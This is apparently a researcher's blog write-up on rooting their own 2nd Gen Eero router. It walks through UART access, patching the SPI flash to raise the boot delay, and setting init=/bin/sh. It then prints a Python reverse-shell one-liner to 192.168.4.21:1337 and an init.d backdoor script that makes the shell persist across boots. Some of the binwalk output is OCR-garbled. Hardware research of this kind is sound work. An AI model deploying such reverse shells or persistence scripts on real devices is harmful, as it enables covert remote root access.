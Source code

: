 ```yaml
---
title: Getting a Root Shell on the 2nd Gen Eero Router
date: 2024-10-21 # HH:MM:SS +/-TTTT
# categories: [CVE, Research, Bug Bounty]
# tags: [TAG]     # TAG names should always be lowercase
---
```


# Summary

Earlier this year, I wanted to dig into the 2nd Gen Eero Router. While working with physical devices it is very helpful to get root access to the device at the beginning of testing. Getting a root on the Eero device was not as trivial as it is on most IoT devices and taught me a lot.

In this blog post, I'm describing all the steps (and failed ideas) I took to get access to the device.

My approach can be split into a few simple steps:
- Getting a UART shell read access
- Reading the SPI Flash content
- Overwriting the SPI Flash content
- Getting a boot shell
- Getting a full-access shell

# Getting a UART shell read access

At the beginning, I wanted to try the most basic technique of getting the shell on the device - by attaching to the UART port on the board. On the Eero board, the UART port is located next to the Flash chip. 
![""](/assets/_images/eero/image0.png)

Its TX, RX, and GND pins look as follows:
![""](/assets/_images/eero/image1.png)

I've soldered 3 cables into the board and connected it to my UART-USB reader. When attaching it to the terminal, I only got read access to the bootloader logs:
![""](/assets/_images/eero/image2.png)

The logging always stopped after displaying the `Starting kernel ...` message and I couldn't interrupt the booting process because the time to stop the autoboot was set to 0 seconds.

# Reading the SPI Flash content

At this point, I've decided I need to read and overwrite the SPI Flash content to increase the autoboot interruption time. I've desoldered the chip and spent a lot of time trying to read its content with my Bus Pirate v3 board. Unfortunately for unknown reasons, it couldn't read the content.

I then attempted to read it using the Flipper Zero tool and its [SPI Mem Manager](https://lab.flipper.net/apps/spi_mem_manager) application. It turned out extremely easy to use with guidance on how to connect each pin. 
![""](/assets/_images/eero/image3.png)

After connecting pins, it automatically recognized the model of the SPI chip and read its content.
![""](/assets/_images/eero/image4.png)

### Changing boot arguments in the flash dump

Running `binwalk` found the flash dump contained multiple file formats inside. 
```bash
$ binwalk SPIMem_2024-03-19_01,37,45.bin 

DESCRIPTION     HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0       0x0         ELF, 32-bit LSB executable, ARM, version 1 (SYSV) 
19432   0x4BE8      Ubiquiti partition header, header size: 56 bytes, name: "PARTNUM_SHFT", size -1912995176 bytes
81400   0x13DF8     Unix path: /dev/icbcfg/boot
263424  0x40500     ATAGS msm partition table (msmptbl), version: 4, number of paritions: 11
393216  0x60000     ELF, 32-bit LSB executable, ARM, version 1 (SYSV)
614007  0x95E77     XML document, version: "1.6"
9830640 0xF0000     ELF, 32-bit LSB shared object, ARM, verston 1 (SYSV)
1358089 8x1488B9    Certificate in DER format (x509 v3), header length: 4, sequence length: 1284
1358125 0x14892D    Certificate tn DER format (x509 v3), header length: 4, sequence length: 1288
1422840 0x1585F8    CRC32 polynomial table, little endian
1424624 0x15BCF0    CRC32 polynomial table, little endian
```

The most important for me was finding a place where boot arguments are stored to change the `bootdelay` value from `0` to any higher value. I've opened the file in the hex editor and quickly searched for the arguments. It found two identical instances of boot arguments:
![""](/assets/_images/eero/image5.png)

The arguments are doubled for backup purposes. If there is any issue in the first copy of the arguments, they are replaced with the second one. 

I've then changed the `bootdelay` argument to 9 seconds. When changing the arguments, I also had to edit the CRC32 checksum placed at the beginning of the arguments section to match the changes. In the first section, the bytes are `27 03 EA 09`

After making the changes, I wrote the edited firmware back to the SPI chip, soldered it to the board, and started the device.

# Bootloader shell

After overwriting the boot options I was able to interrupt the startup process. The bootloader shell is very limited but allowed to run a few useful commands such as:
- `mmc` - MMC sub system
- `tftpput` - TFTP put command, for uploading files to a server
- `setenv` - set environment variables to persistent storage

At first, I thought I could get the main OS memory from the MMC by loading its content in chunks to the RAM and then using the `tftpput` command uploading it to my PC. I have created a simple Python script to do it automatically:
```python
for i in range(0x0, 0x720000, 0x5111):
	port.write(f"mmc read 84000000 {i} 5111\n".encode())
	wait_for_is_read()
	
	port.write(f"tftpput 84000000 A22200 file{count}\n".encode())
	wait_for_is_read()
	
	count += 1
```

The script took a few hours to finish. Unfortunately only after I've done it, I understood my mistake. The data on disk is fragmented and one part of a file may lay in a different block of the disk than the second part. I ended up with a dump of useless junk.
```
$ binwalk dump.bin
[...]
3144050055 0xBB666587 merypt 2.2 encrypted data, algorithm: blowfish-448, mode: CBC, keymode: Sbit
3144080041 0xBBGGDAA9 Certificate tn DER format (x569 v3), header length: 4, sequence length: 1284
3144086153 6xBB660B19 Certificate in DER format (x589 v3), header length: 4, sequence length: 1288
3144080785 0xBB66DD91 Certificate in DER format (x569 v3), header length: 4, sequence length: 1284
3144184896 0xBB687440 Untx path: /var/log/conntrackd. log
3144186616 0xBB687AF8 Untx path: /var/log/conntrackd-stats.log
3144344324 0xBB6AE304 Unix path: /sys/dev/block/%d:%d/loop/backing_file
3144345176 8xBB6AE658 Untx path: /dev/dtsk/by-uutd/
3144361384 6xBB6B25A8 Untx path: /usr/share/locale
3144391168 0xBB6B9A08 ELF, 32-bit LSB shared object, ARM, verston 1 (SYSV)
3144442332 6xBB6C61DC Unix path: /dev/disk/by-uutid/
3144443266 8xBB6C657C Untx path: /sys/dev/btock/%d:%d/loop/backitng_file
3144446896 0xBB6C73B0 Unix path: /usr/share/locale
3144495088 8xBB6D2FF6 Unix path: /usr/share/locale
3144497240 0xBB6D3858 Unix path: /dev/dtsk/by-uutd/
3144498588 0xBB6D3D9C Untx path: /sys/dev/block/%d:%d/loop/backing_file
3144505856 0xBBÓDSA60 ELF, 32-bit LSB shared object, ARM, version 1 (SYSV)
3144522240 0xBB6ÓD9A08 ELF, 32-bit LSB shared object, ARM, version 1 (SYSV)
3144538112 6xBB6DD866 Unix path: /usr/share/locale
3144546816 0xBB6DFAG66 ELF, 32-bit LSB shared object, ARM, verston 1 (SYSV)
```

I then figured out an easier way of getting the shell in the system. Using the bootloaders `setenv` command I've changed the boot args adding the `console=ttyMSM0,115200n8 init=/bin/sh` options. 
```bash
$ setenv bootargs="root=/dev/mmcblk0p4 loglevel=6 rdinit=/bin/kinit rw single rootdelay=5 rootwait_nodelay rootwait_timeout=5 console=ttyMSM0,115200n8 init=/bin/sh"
$ saveenv
```

After saving the changes using the `saveenv` command and restarting the device, I successfully got my first root shell.
![""](/assets/_images/eero/image6.png)

There was a tiny issue with the shell I've got - it ran just before the `systemd` started every important process in the system so I couldn't check what binaries are listening on ports and what arguments are used when starting them.
![""](/assets/_images/eero/image7.png)

I figured I needed to add a reverse shell to the startup process itself. To do so, I've created two files:

**/var/backdoor**
```bash
#!/bin/sh
while true; do
    python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.4.21",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' && kill -9;
    sleep 1;
done
```

and 

**/etc/init.d/s99backdoor**
```bash
#!/bin/sh
case "$1" in 
    start)
        /bin/sh /var/backdoor &
        [ $? =0 ] && echo "Started" || echo "Failed to start"
        ;;
    stop)
        /bin/sh /var/backdoor &
        [ $? =0 ] && echo "Stopped" || echo "Failed to stop"
        ;;
    reload)
        "$0" stop
        "$0" start
       ;;
   *)
    echo "How to: $0 {start | stop | reload}"
   exit 1
esac

exit $?
```

I enabled the backdoor script to run when the system boots using the `update-rc.d` tool:
```
$ chmod +x /var/backdoor
$ /usr/sbin/update-rc.d s99backdoor defaults
```

After restarting the system and starting a listener on my machine with address `192.168.4.21`, I got a reverse shell with root privileges with all the processes properly started.

![""](/assets/_images/eero/image8.png)

# Final thoughts

During this project I've learned a lot about hardware components, soldering, and booting process. Getting a root shell was only a beginning of the project, after which I analysed the binaries working in the system and it's whole ecosystem.